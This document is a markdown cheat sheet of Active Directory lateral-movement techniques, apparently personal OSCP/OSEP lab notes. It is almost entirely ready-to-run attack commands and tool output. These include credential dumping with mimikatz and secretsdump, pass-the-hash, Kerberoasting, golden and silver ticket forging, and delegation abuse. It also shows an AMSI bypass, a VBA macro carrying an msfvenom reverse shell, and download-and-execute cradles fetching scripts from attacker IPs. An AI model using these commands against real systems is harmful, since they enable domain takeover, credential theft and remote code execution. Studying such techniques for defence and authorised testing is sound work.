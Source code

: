# Lateral Movement

<details>

<summary>Admin Password Reuse</summary>

Using crackmapexec:

```bash
└─# crackmapexec smb 10.11.1.20-24 -u administrator -H 'ee0c207898a5bccc01f38115019ca2fb' --local-auth --lsa 
SMB         10.11.1.22      445    SVCLIENT08       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT08) (domain:SVCLIENT08) (signing:False) (SMBv1:True)
SMB         10.11.1.21      445    SV-FILE01        [*] Windows Server 2016 Standard 14393 x64 (name:SV-FILE01) (domain:SV-FILE01) (signing:False) (SMBv1:True)
SMB         10.11.1.24      445    SVCLIENT73       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT73) (domain:SVCLIENT73) (signing:False) (SMBv1:True)
SMB         10.11.1.20      445    SV-DC01          [*] Windows 10.0 Build 17763 x64 (name:SV-DC01) (domain:SV-DC01) (signing:True) (SMBv1:False)
SMB         10.11.1.22      445    SVCLIENT08       [+] SVCLIENT08\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!)
SMB         10.11.1.21      445    SV-FILE01        [-] SV-FILE01\administrator:ee0c207898a5bccc01f38115019ca2fb STATUS_LOGON_FAILURE 
SMB         10.11.1.24      445    SVCLIENT73       [+] SVCLIENT73\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!
```

* Login with impacket psexec using hashes

```bash
impacket-psexec jimmy@192.168.35.142 -hashes ee0c207898a5bccc01f38115019ca2fb
```

</details>

<details>

<summary>Obtain Kerberos Ticket</summary>

* Sync the Kali's timing with the DC timing.

```bash
ntpdate <dc_ip>
```

* To collect the Kerberos Ticket

```bash
impacket-GetUserSPNs hacker.local/Administrator:Password1 -dc-up 192.168.35.142 -request
```

</details>

<details>

<summary>Getting TGT from Service</summary>

For pass the ticket attack

```bash
impacket-GetNPUsers -dc-ip 10.10.10.10 active.htb/SVC-TGS -no-pass
```

</details>

<details>

<summary>Pass the Hash</summary>

* Works only for server or service using NTLM authentication, not Kerberos authentication.
* Requires local administrative permissions.

Retrieve the content of the Windows Security Account Manager (SAM) file to dump client01's hashes.

```sh
reg save hklm\sam c:\windows\temp\sam
```

```sh
reg save hklm\system c:\windows\temp\system
```

```sh
impacket-secretsdump -system system -sam sam local
```

```bash
impacket-secretsdump Hacker.local/hguy:password@192.168.35.144'
```

Connect to victim by passing the hash

```sh
impacket-psexec Administrator:@192.168.199.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```

* hashes in the format: \<LM>:\<NT>
* LM hashes discontinued since Win10

</details>

<details>

<summary>Pass the Hash with Computer Account</summary>

```bash
sekurlsa::pth /user:web01$ /domain:EVIL.COM /ntlm:f4528218862ef1bed4c351d7b10d77fd
```

</details>

<details>

<summary>Kerberoasting</summary>

To obtain TGS-REP hash to crack service accounts passwords.

### Invoke-Kerberoast.ps1

Collects a list of service accounts along with their correlating password hashes

```sh
powershell -ep bypass -c "Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

### Rubeus.exe

[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
C:\temp>Rubeus.exe kerberoast
Rubeus.exe kerberoast

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting
...
```

### GetUserSPNs.py

* Good when don't have access to the victim
* On the attacker:

```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

### Transferring Files

```sh
python2.7 -m pyftpdlib -p 21 --write
```

### Cracking Hashes

```sh
hashcat -m 13100 -a 0 kerb.txt /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Overpass the Hash</summary>

* “Over” abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket or service ticket
* Requires local admin rights

1. Obtain the NTLM hash first&#x20;

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

2. Creates a new PowerShell process in the context of the Jeff\_Admin user

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

3. Inside the new Powershell session, generate a TGT by authenticating to a network share on the domain controller.&#x20;

```powershell
net use \\dc01
```

* We used "net use" arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.

```
klist
```

4. Since we have generated Kerberos tickets and operate in the context of Jeff\_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller

```
.\PsExec.exe \\dc01 cmd.exe
```

</details>

<details>

<summary>Pass the Ticket</summary>

Takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.

1. Obtain SID of user

```sh
whoami /user
```

* Eg: SID:S-1-5-21-1602875587-2787523311-2599479668-1103 (Don't include 1103)&#x20;

2. Use Mimikatz

```bash
kerberos:purge
```

```bash
kerberos::list
```

* Ensure that no kerberos ticket is present

```bash
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

* To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.

```
kerberos::list
```

3. Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket.

</details>

<details>

<summary>NTDSam</summary>



</details>

<details>

<summary>DCSync</summary>

### From Bloodhound:

![](<../.gitbook/assets/image (140).png>)

### Using Secretsdump

```bash
secretsdump.py -just-dc svc_loanmgr@10.10.10.175 -outputfile dcsync_hashes
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

#Password:
#[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
#[*] Using the DRSUAPI method to get NTDS.DIT secrets
#Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

### Using Mimikatz (Powershell)

* Download Invoke-Mimikatz.ps1 from [here](https://github.com/phra/PowerSploit/raw/4c7a2016fc7931cd37273c5d8e17b16d959867b3/Exfiltration/Invoke-Mimikatz.ps1)

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:administrator"'
# OR
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator"'
```

</details>

<details>

<summary>Cracking Mscash (Cached Domain Credentials)</summary>

[https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

```bash
secretsdump.py administrator@172.16.197.11 -hashes :f1014ac49bae005ee3ece5f47547d185 
# MEDTECH.COM/Administrator:$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# MEDTECH.COM/yoshi:$DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
```

### Format into $DCC2$10240#username#hash format for hashcat&#x20;

```bash
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 medtech_hashes
# $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# $DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
# $DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
```

### Crack with Hashcat

```bash
hashcat -m 2100 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>WriteDacl (Bloodhound)</summary>

* Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

#### On Victim:

```bash
*Evil-WinRM* PS C:\temp> Bypass-4MSI
Info: Patching 4MSI, please be patient...
[+] Success!

*Evil-WinRM* PS C:\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')

*Evil-WinRM* PS C:\temp> net user john abc123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions" john /add
# Needed cuz based on bloodhound, exhange windows permissions group has writedacl privileges for domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

*Evil-WinRM* PS C:\temp> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\temp> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\temp> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

#### On Attacker:

```bash
secretsdump.py htb/john@10.10.10.161
# [*] Using the DRSUAPI method to get NTDS.DIT secrets
# htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

</details>

<details>

<summary>Distributed Component Object Model</summary>

* is a system for creating software components that interact with each other within or across processes.

- Requires Local admin (to call the DCOM Service Control Manager)
- Requires port 135, 445
- Requires Microsoft office to be installed on target

1. Create an instance of the Object on the target

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
```

2. Check the available methods for the object

```powershell
$com | Get-Member
```

* If it has the `Run` method, attacker is able to execute Visual Basic for Applications (VBA) macro remotely.

3. Generate Reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

4. Extract from the generated payload, the line starting with `powershell.exe -nop -w hidden -e` followed by the Base64 encoded payload and use the simple Python script to split the command into smaller chunks (ensuring that the literal strings limit in Excel macros is met.)

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

5. Put the reverse shell payload into macro

```vba
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

* Save the file in `Excel 97-2003 Workbook` format.

6. Transfer the file over to target using SMB, open the excel file and run the macro.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")

```

</details>

<details>

<summary>Dump Domain Admin Hash from DC</summary>

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:prod.corp1.com /user:prod\administrator
evil-winrm  -i 192.168.70.70 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
```

</details>

<details>

<summary>Change Domain Admin password</summary>

* From high privilege shell
* Changes the password to `password`

```sh
net user /domain administrator password
```

</details>

<details>

<summary>Open CMD Prompt as Another User</summary>

```bash
runas /user:corp\jen powershell.exe
```

</details>

## OSEP Notes below

<details>

<summary>Stealing Keytab files (Linux AD)</summary>

* Contains a kerberos principal name & encrypted keys
*   ```bash
    kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
    ```


* Verify that tickets from keytab have been loaded && renew tickets
  *   ```bash
      klist
      kinit -R
      ```


* Remove all kerberos tickets
  * ```bash
    kdestroy
    ```

</details>

<details>

<summary>Stealing Credential Cache Files (Linux AD)</summary>

* Check for presence with&#x20;
  *   ```bash
      ls -al /tmp/krb5cc_*
      ```


* Copy credential cache files to Kali
  *   ```bash
      scp root@linuxvictim:/tmp/krb5cc_607000500_qZWKpe .
      ```


* Set environment variable on Kali
  *   ```bash
      export KRB5CCNAME=/home/kali/Documents/offsec/linux_lateral_movement/krb5cc_607000500_qZWKpe
      ```


* Install the following, if required
  *   ```bash
      sudo apt install krb5-user
      ```


  *

      <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Add target DC and generic domain to /etc/hosts
  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* IMPT: THE SOURCE OF THE KERBEROS REQUEST MATTERS!!! --> SET UP [LIGOLO-NG!](../post-exploitation/port-forwarding-pivoting.md#ligolo-ng)
* Then, can
  * ```bash
    python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
    ```

</details>

<details>

<summary>Creating Keytab files (Linux AD)</summary>

* Create in /tmp/administrator.keytab
* ```bash
  ktutil
  addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
  wkt /tmp/administrator.keytab
  quit
  ```

</details>

<details>

<summary>Creating Credential Cache Files (Linux AD)</summary>

* Acquire TGT for current user
  *   ```bash
      kinit
      ```


* List tickets currently stored in user's credential cache file
  *   ```bash
      klist
      ```


* Get a list of available SPN from DC
  *   ```bash
      ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
      ```


* Request a service ticket from Kerberos for MSSQL SPN
  * ```bash
    kvno MSSQLSvc/DC01.corp1.com:1433
    ```

</details>

<details>

<summary>Abusing GenericAll</summary>

## For Domain User

* Change password of an account
  *   ```powershell
      net user testservice1 P@ssw0rd /domain
      ```


* Spawn new powershell.exe in context of testservice1
  *   ```powershell
      runas /user:prod\testservice1 powershell.exe
      ```



## For Domain Group

* ```powershell
  net group testgroup offsec /add /domain
  ```

</details>

<details>

<summary>Exploiting WriteDACL</summary>

* Can add new access rights like GenericAll, GenericWrite, or even DCSync
* Adding GenericAll rights:
  * ```powershell
    Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
    ```

</details>

<details>

<summary>Exploiting GenericWrite on Another User</summary>

* Able to set a service principal name and kerberoast that account
  *   ```powershell
      ./targetedKerberoast.py --dc-ip '192.168.170.70' -v -d 'prod.corp1.com' -u 'offsec' -p 'lab'
      ```


* Obtain TGS-REP hash
  * ```bash
    hashcat -m 13100 hash.txt rockyou.txt
    ```

</details>

<details>

<summary>Exploiting GenericWrite on Computer Object</summary>

![](<../.gitbook/assets/image (5) (1) (1).png>)

* Enumerating permissions assigned to current user
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```


  * Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

- <pre class="language-powershell"><code class="lang-powershell"># Create a fake computer account
  . .\powermad.ps1
  New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
  Get-DomainComputer -Identity myComputer

  # Get the SID of myComputer$
  $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

  # Create a Security Descriptor for RBCD
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

  # Convert and Apply the Security Descriptor to appsrv01
  $SDbytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDbytes,0)
  Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

  # Verify That RBCD Was Configured
  $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
  $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
  $Descriptor.DiscretionaryAcl

  # Verify the SID Mapping
  ConvertFrom-SID S-1-5-21-634106289-3621871093-708134407-3601

  # Generate an NTLM Hash for myComputer$
  .\Rubeus.exe hash /password:h4x

  # Request a Ticket Granting Service (TGS) Ticket Using Rubeus
  .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

  # Verify Remote Access to appsrv01
  dir \\appsrv01.prod.corp1.com\c$

  # Obtaining code execution
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=80 EXITFUNC=thread -f exe -o shell.exe
  copy shell.exe \\appsrv01.prod.corp1.com\C$\Windows\Temp\shell.exe
  wmic /node:appsrv01.prod.corp1.com process call create "C:\Windows\Temp\shell.exe"

  <strong>#OR 
  </strong>
  python3 mkpsrevshell.py 192.168.45.222 443
  wmic /node:appsrv01.prod.corp1.com process call create "powershell -e JABjAG.."

  </code></pre>

</details>

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

```powershell
Import-Module powerview.ps1
Get-DomainComputer -Unconstrained
# Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
```

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1).png>)
        *   ```powershell
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 krbrelayx.py -aesKey python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  * ```sql
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {
          $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_
      } | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      ```


* Execute Commands as Administrator
  * ```powershell
    impacket-psexec administrator@backup01.corp.com -k -no-pass
    ```

</details>

<details>

<summary>Extra SID Attack</summary>

## Using KRBTGT

* Extracts krbtgt hash for creating a Golden Ticket
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
      ```


* Enumerate Domain & Trust Information (using powerview)
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSid -Domain corp1.com
      ```


* Forge a Golden Ticket with Extra SIDs
  *   ```powershell
      # kerberos::golden /user:<FakeUser> /domain:<OriginDomain> /sid:<OriginDomainSID> /krbtgt:<krbtgtHash> /sids:<RootDomainSID>-519 /ptt
      kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
      ```


* Access Root Domain Controller
  *   ```powershell
      c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
      whoami /groups
      ```



## Using Trust Key

* Extract trust key
  * Name of the account is always the same as the trusted domain
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:corp1$
      ```


* Get Domain SID
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSID -Domain corp1.com
      ```


* Craft golden ticket
  *   ```powershell
      kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain>
      kerberos::golden /user:Administrator /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /rc4:d6eba9e9b9bb466be9d9d20c5584c9ef /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /target:corp1.com /ticket:ticket.kirbi
      ```


* Inject ticket with Rubeus
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:cifs/rdc01.corp1.com /ptt
      ```


* Reinject to PsExec
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:HOST/rdc01.corp1.com /ptt
      ```


* Access Root Domain Controller
  * ```powershell
    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
    whoami /groups
    ```

</details>

<details>

<summary>Abusing PrintSpool service to obtain EA Hash</summary>

* Login to server with unconstrained kerberos delegation (eg: appsrv01)
  * Can configure a server to have unconstrained kerberos delegation if domain admin
*   ```powershell
    ls \\rdc01\pipe\spoolss
    Rubeus.exe monitor /interval:5 /filteruser:RDC01$
    .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
    Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
    lsadump::dcsync /domain:corp1.com /user:corp1\administrator

    #Login via evil-winrm
    evil-winrm -i 192.168.177.60 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
    ```



</details>

<details>

<summary>Compromising An Additional Forest</summary>

* Forest trust has SID Filtering
  * Contents in the ExtraSids field are filtered, grp memberships are not blindly trusted
  *   ```powershell
      # Enable sidhistory (Requires DA of target corp2.com)
      netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
      # Check that TrustAttributes has TREAT_AS_EXTERNAL
      Get-DomainTrust -Domain corp2.com
      ```


* Need to find user with RID >= 1000 && user in domain local security groups so as not to be filtered
  * ```powershell
    # Enumerate members of the corp2.com built-in administrators group
    Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
    # Enumerate Domain (using powerview)
    Get-DomainSID -Domain corp1.com
    # Extracts krbtgt hash for creating a Golden Ticket 
    lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
